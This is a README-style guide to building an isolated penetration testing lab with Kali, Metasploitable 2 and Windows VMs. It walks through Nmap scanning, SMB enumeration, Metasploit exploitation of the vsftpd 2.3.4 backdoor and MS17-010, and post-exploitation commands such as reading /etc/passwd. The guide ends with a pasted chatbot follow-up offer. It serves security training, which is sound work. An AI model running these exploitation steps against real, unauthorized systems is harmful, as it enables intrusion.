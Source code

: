 # 🛡️ A Detailed guide to setting up a safe and practical Real world penetration testing lab.

<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Tools-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Targets-Metasploitable%20%26%20Windows-red?style=for-the-badge" />
</p>


## 🔹 Lab Overview

This guide is designed for **ethical hackers and cybersecurity enthusiasts** to practice penetration testing in a **safe, isolated, and realistic environment**.

**Lab Components:**

| Machine   | OS               | IP Address       | Role                         |
|-----------|-----------------|----------------|------------------------------|
| Attacker  | Kali Linux       | 192.168.142.128 | Pentester machine            |
| Target 1 | Metasploitable 2 | 192.168.142.130 | Vulnerable Linux machine     |
| Target 2 | Windows 10/Server| 192.168.142.132 | Vulnerable Windows machine   |

**Objectives:**  
- Perform reconnaissance, scanning, enumeration, exploitation, and post-exploitation.
- Practice both Linux and Windows target exploitation in a controlled environment.
- Build a detailed report of findings.

## 🔹 Lab Setup

### 1. Requirements
- Virtualization software: **VirtualBox** or **VMware**
- Kali Linux VM
- Metasploitable 2 VM
- Windows VM (10/Server)
- Internal network setup for isolation
- Snapshots before testing

### 2. Network Configuration
1. Set all VMs to **Host-Only Adapter** or **Internal Network**.
2. Confirm connectivity between machines:
```bash
ping 192.168.142.130
ping 192.168.142.132
````

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

* Gather info without directly contacting the target:

```bash
whois 192.168.142.130
whois 192.168.142.132
nslookup 192.168.142.132
```

#### Active Recon

* Scan for open ports and services with **Nmap**:

```bash
nmap -sS -Pn 192.168.142.130
nmap -sS -Pn 192.168.142.132
```

* Detailed scanning with service detection:

```bash
nmap -A -p- 192.168.142.130
nmap -A -p- 192.168.142.132
```

---

### Step 2: Enumeration

#### Linux Target

* Identify services and versions:

```bash
nmap -sV -p 21,22,23,80,139,445,3306 192.168.142.130
```

* FTP Banner grabbing:

```bash
nc 192.168.142.130 21
```

* SMB enumeration:

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux 192.168.142.130
```

#### Windows Target

* SMB enumeration:

```bash
smbclient -L \\192.168.142.132 -U Administrator
```

* RDP/SMB service detection:

```bash
nmap -p 3389,445 -sV 192.168.142.132
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to find known exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit ms17-010
```

* Metasploit module usage example:

```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

---

### Step 4: Exploitation

#### Linux Target

* Exploit FTP vulnerability:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
run
```

#### Windows Target

* Exploit SMB vulnerability:

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 192.168.142.132
run
```

* Gain shell access:

```bash
whoami
id
```

---

### Step 5: Post-Exploitation

* Linux target:

```bash
uname -a
cat /etc/passwd
ifconfig
sudo -l
```

* Windows target:

```powershell
systeminfo
net user
whoami /priv
```

* Extract sensitive information or pivot to other machines (in lab only).

---

### Step 6: Reporting

Document all findings with screenshots, PoCs, and mitigation steps.

**Sample Table:**

| Vulnerability | Exploit Used  | Impact                | Mitigation                      |
| ------------- | ------------- | --------------------- | ------------------------------- |
| FTP Backdoor  | vsftpd\_2.3.4 | Remote Shell Access   | Upgrade FTP / Disable anonymous |
| SMB MS17-010  | EternalBlue   | Remote Code Execution | Apply Windows Update / Patch    |

---

## 🔹 Recommended Tools

* **Kali Linux Tools:** Nmap, Netcat, Metasploit, Enum4linux, Nikto, Dirb
* **Windows Testing Tools:** PowerShell, CrackMapExec, SMBMap
* **Analysis Tools:** Wireshark, Burp Suite

---

## 🔹 Best Practices

* Always take VM snapshots before testing.
* Keep the lab **isolated from the internet**.
* Use only lab IP addresses to avoid accidental attacks.
* Document every step carefully for reporting.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [MS17-010 EternalBlue](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Do **NOT** perform penetration testing on unauthorized networks. Unauthorized testing is illegal and unethical.

```

---

If you want, I can also **add rich visuals, diagrams, folder structures, and GitHub badges for tools, OS, and steps**—so it becomes a **full professional lab README.md** ready to impress on GitHub.  

Do you want me to enhance it with visuals and structure?
```
